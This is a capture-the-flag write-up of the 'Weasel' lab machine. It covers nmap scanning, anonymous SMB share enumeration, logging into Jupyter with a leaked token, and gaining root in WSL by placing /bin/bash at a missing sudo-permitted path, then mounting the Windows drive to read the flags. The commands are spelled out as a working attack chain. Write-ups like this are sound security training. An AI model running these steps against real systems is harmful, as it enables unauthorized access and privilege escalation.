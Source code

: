 # Weasel
### Difficulty: Medium
------------------------------------------------------

Let's run nmap scan for start:
```bash
nmap -sV -sC 10.10.213.247
```

Results:
```bash
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 2b17d88a1e8c99bc5bf53d0a5eff5e5e (RSA)
|   256 3cc0fdb5c157ab75ac8110aee298120d (ECDSA)
|_  256 e9f030bee6cfeffe2d1421a0ac457b70 (ED25519)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: DEV-DATASCI-JUP
|   NetBIOS_Domain_Name: DEV-DATASCI-JUP
|   NetBIOS_Computer_Name: DEV-DATASCI-JUP
|   DNS_Domain_Name: DEV-DATASCI-JUP
|   DNS_Computer_Name: DEV-DATASCI-JUP
|   Product_Version: 10.0.17763
|_  System_Time: 2023-05-21T13:30:10+00:00
| ssl-cert: Subject: commonName=DEV-DATASCI-JUP
| Not valid before: 2023-03-12T11:46:50
|_Not valid after:  2023-09-11T11:46:50
|_ssl-date: 2023-05-21T13:30:17+00:00; +1s from scanner time.
8888/tcp open  http          Tornado httpd 6.0.3
| http-title: Jupyter Notebook
|_Requested resource was /login?next=%2Ftree%3F
| http-robots.txt: 1 disallowed entry 
|_/ 
|_http-server-header: TornadoServer/6.0.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-05-21T13:30:10
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
```

This machine runs Windows operating system, and the main open services I'll target are probably SMB (445), HTTP (8888) and maybe SSH (22) and RDP (3389).

I'll start with the SMB service - 

Let's use the "crackmapexec" tool to get some information about the shares in there.

```bash
crackmapexec smb 10.10.213.247 -u 'UserNotExist' -p '' --shares
```

Found the following shares:

![image](https://github.com/yuvalbatan/writeups/assets/114166939/2c917ef6-c022-4fb2-9826-3852aa14bb15)

Let's check what's inside "datasci-team" share with "SMBclient" tool:
```bash
smbclient -N //10.10.213.247/datasci-team
```

There are many files and directories here.

![image](https://github.com/yuvalbatan/writeups/assets/114166939/49f377f8-3f76-4975-8243-1a3f3c82c0f6)

I'll enter the "misc" directory:

![image](https://github.com/yuvalbatan/writeups/assets/114166939/27e3d079-c96b-4dd2-9c80-3a16fd697494)

And download the "jupyter-token.txt" file to my computer with the command:
```bash
get jupyter-token.txt
```

Besides this file, there aren't any other interesting ones.

Let's examine this file on my machine:

![image](https://github.com/yuvalbatan/writeups/assets/114166939/6d8d823a-81e0-426d-8e60-54b57f5cf864)


The file appears to only contain a token, which we will use soon, so I'll save it and move forward to the HTTP service.

In my browser, if I enter "10.10.213.247:8888", it redirects me to this page:

![image](https://github.com/yuvalbatan/writeups/assets/114166939/ed14e1fe-e53d-4c8d-9c76-cf4715a656b4)

In here - I can login with password or token. I'll use the token I found in the SMB service.



It works!

![image](https://github.com/yuvalbatan/writeups/assets/114166939/b6b3a4f3-3ea1-4f62-85ab-822fb06c8256)

"Jupyter" is an open-source web application notebook environment for interactive computing.

In the "New" menu there is an option to open a terminal:

![image](https://github.com/yuvalbatan/writeups/assets/114166939/1af72d79-485a-4cb7-beb2-ef7d6cf2b9cf)

Click on it - and you'll get a terminal for the system!

This is very weird because in the nmap scan all the services indicated we have a deal with Windows OS.

Also that's what the terminal displays:

![image](https://github.com/yuvalbatan/writeups/assets/114166939/c62619f3-8026-46d0-b07a-1ac6a6f904af)


It says "GNU/Linux 4.4.0-17763-Microsoft x86_64".

Quick search on Google and a bit of locig tells me that we are dealing with a WSL (Windows Subsystem for Linux), which means that on the Windows OS there is an option to run Linux command line tools and more.


Let's investigate the user we got:

The user is "dev-datasci", it is in the "sudo" group!

I'll check its permission:

![image](https://github.com/yuvalbatan/writeups/assets/114166939/94ff72bc-ee1b-4d8d-9967-786ce93b2719)

Let's see what is the first file we can run with sudo ("/home/dev-datasci/.local/bin/jupyter"):
```bash
cat /home/dev-datasci/.local/bin/jupyter
```

![image](https://github.com/yuvalbatan/writeups/assets/114166939/c57ac311-7848-49c7-9bdc-7b4a1255334e)

There is an error that says there is no file called "jupyter" in this location.

I'll use it for privilege escalation:

First, I'll copy "/bin/bash" to this location and change its name to "jupyter":
```bash
cp /bin/bash /home/dev-datasci/.local/bin/jupyter
```

Next, I'll run this as root with the sudo command:
```bash
sudo /home/dev-datasci/.local/bin/jupyter
```

![image](https://github.com/yuvalbatan/writeups/assets/114166939/277d0d90-15c7-4dec-9a28-b49f1035cbee)

Got the root user!

Let's move forward and explore how to get the files and information from the windows os.

I'll enter the "/mnt" directory:
```bash
cd /mnt && ls -la
```

There is nothing except for this directory:

![image](https://github.com/yuvalbatan/writeups/assets/114166939/155b1ace-47ae-4a0e-a794-709c3217cbbc)

There is nothing in the directory either.

Let's find a way to mount this "c" drive from the WSL.

I found this article "https://www.public-health.uiowa.edu/it/support/kb48568/" - which contains the following command:
```bash
mount -t drvfs M: /mnt/m
```

I'll modify it for my own meeds and run it:
```bash
mount -t drvfs C: /mnt/c
```

Enter the "c" directory again and you will find many files which look like from windows file system!

![image](https://github.com/yuvalbatan/writeups/assets/114166939/58c2ad68-9628-4abc-b841-caa628103f0d)

The "user.txt" file should be on the regular user directory in the "Desktop":
```bash
cd /mnt/c/Users/dev-datasci-lowpriv/Desktop
```

![image](https://github.com/yuvalbatan/writeups/assets/114166939/9e057c2c-9ad4-4d40-8852-9990284c16b7)

Got the first flag!

The next flag is the "root.txt" file located in the "Administrator" directory on the "Desktop":
```bash
cd /mnt/c/Users/Administrator/Desktop
```

![image](https://github.com/yuvalbatan/writeups/assets/114166939/7a275d77-d1aa-4f0b-9616-9c0d5fd72d6c)
